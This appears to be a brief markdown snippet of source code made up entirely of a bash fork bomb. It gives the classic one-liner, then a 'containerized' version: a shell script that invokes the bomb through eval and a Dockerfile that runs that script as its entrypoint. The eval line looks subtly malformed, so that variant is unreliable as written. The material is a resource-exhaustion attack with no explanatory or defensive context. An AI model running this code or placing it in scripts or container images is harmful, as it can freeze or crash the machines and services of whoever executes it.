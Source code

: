 # 1 Fork Bomb

```shell
:(){ :|:& };:
```
# 2 Containerized Fork Bomb

forkbomb.sh
```shell
#!/bin/bash
echo "start fork bomb"
eval $(:( ){ :|:& };:)
echo "end forkbomb"
```

```dockerfile
FROM debian
COPY forkbomb.sh /forkbomb.sh
RUN chmod +x /forkbomb.sh
ENTRYPOINT ["/forkbomb.sh"]
```

